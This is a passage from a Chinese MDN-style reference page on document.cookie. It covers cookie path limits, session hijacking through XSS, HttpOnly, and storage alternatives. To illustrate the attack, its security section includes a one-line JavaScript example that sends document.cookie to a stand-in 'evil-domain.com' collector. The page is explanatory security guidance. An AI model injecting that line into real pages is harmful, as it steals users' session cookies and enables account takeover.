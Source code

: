 ## 安全<a name="Notes"></a>


路径限制并**不能**阻止从其他路径访问cookie. 使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的[iframe](%453 ""), 然后访问其`contentDocument.cookie`属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用[同源策略](%24690 "")保护其不被读取.



Web应用程序通常使用cookies来标识用户身份及他们的登录会话. 因此通过窃听这些cookie, 就可以劫持已登录用户的会话. 窃听的cookie的常见方法包括社会工程和XSS攻击 -


```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```


`HttpOnly`属性可以阻止通过javascript访问cookie, 从而一定程度上遏制这类攻击. 参见[Cookies and Security](%24691 "http://www.nczonline.net/blog/2009/05/12/cookies-and-security/").


## 备注<a name="Specification"></a>

* 从 Firefox 2 起, 有更好的客户端存储机制用以替代 cookie -[WHATWG DOM Storage](%24692 "DOM/Storage").
* 你可以通过更新一个cookie的过期时间为0来删除一个cookie。
* 请注意, 更多/更大的 cookies 意味着每个请求都要包含更繁重的数据传输. 如果您只是需要存储些 &quot;client-only&quot; 的数据, 那么郑重建议您使用[WHATWG DOM Storage](%24692 "DOM/Storage").

## 规范<a name="Specification"></a>


[DOM Level 2: HTMLDocument.cookie](%24693 "")


## 参见<a name="参见"></a>

* [HTTP cookies](%24694 "HTTP cookies")
* [Cookies](%24695 "Cookies")(Code snippets)



## 文档标签和贡献者
**标签：**
* [cookie](%24696 "")
* [Document.cookie](%24697 "")

**此页面的贡献者：**[Liugq5713](%24698 ""),[kuracola](%24699 ""),[xgqfrms-GitHub](%57 ""),[binggg](%24700 ""),[x4storm](%24701 ""),[galin](%24702 ""),[fskuok](%24703 ""),[teoli](%160 ""),[AshfaqHossain](%4944 ""),[ReyCG](%24187 "")
**最后编辑者:**[Liugq5713](%24698 ""),<time>Jun 25, 2018, 12:52:55 AM</time>


